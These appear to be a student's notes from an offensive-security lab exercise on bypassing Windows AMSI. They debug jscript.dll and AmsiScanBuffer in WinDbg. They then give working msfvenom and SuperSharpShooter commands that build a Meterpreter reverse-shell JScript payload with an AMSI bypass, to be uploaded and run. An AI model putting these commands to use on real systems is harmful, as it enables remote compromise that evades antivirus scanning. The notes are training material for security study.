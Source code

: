 
#### 7.6.2 Is That Your Registry Key

- In Windbg on current Win10 `bu jscript!JAmsi::JAmsiIsEnabledByRegistry` doesn't seem to exist
	- In Windbg load Wmscript.exe and a malicious js file
	- set breakpoint `bu jscript!JAmsi::JAmsiIsEnabledByRegistry`
	- continue to breakpoing `g`
	- throws error
	- look in jscript.dll using `lmDvmjscript`
	- find functions in jscript.dll  that are like jscript!j* using `x /D /f jscript!jA*`
	
![](Images/WindbgSearchingForJscriptAMSI.png)

On Win 10 build 17763 (Offsec lab):
![](Images/WindbgWin10B17763JscriptAmsi.png)
- this appears to show that JAsmiIsEnabledByRegistry is no longer a function in the jscript.dll

#### Windbg with wscript.exe and a malicious .js

- Start debugging session
- `bu amsi!AmsiScanBuffer`

![First hit of AmsiScanBuffer in Windbg](Images/WscriptJsAmsiScanBufferHit.png)
- look at the next 20 instructions `u rip L20`

![Next 20 Instructions](Images/WindbgAmsiScanBufferNext20Instructions.png)


### Exercise 7.6.2.3

- Experiment with SharpShooter to generate the same type of payload with an AMSI bypass.

- Generate raw shell code
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.45.210 LPORT=9001 EXITFUNCTION=thread -f raw -o offsec-shell.txt
```

```bash
./SuperSharpShooter.py --stageless --dotnetver 4 --rawscfile offsec-shell.txt --payload js --output ch07-offsec-test --amsi amsienable


             _____ __                    _____ __                __
            / ___// /_  ____ __________ / ___// /_  ____  ____  / /____  _____
            \__ \/ __ \/ __ `/ ___/ __ \\__ \/ __ \/ __ \/ __ \/ __/ _ \/ ___/
           ___/ / / / / /_/ / /  / /_/ /__/ / / / / /_/ / /_/ / /_/  __/ /
     SUPER/____/_/ /_/\__,_/_/  / .___/____/_/ /_/\____/\____/\__/\___/_/
                              /_/

     Dominic Chell, @domchell, MDSec ActiveBreach, v2.0
     SYANiDE, v3.1 Clinical Precision 

[*] Preview:  var entry_class = 'Shar'+'p'+'S'+'h'+'oot'+'er';
[*] Written delivery payload to output/ch07-offsec-test.js

```
- upload and run

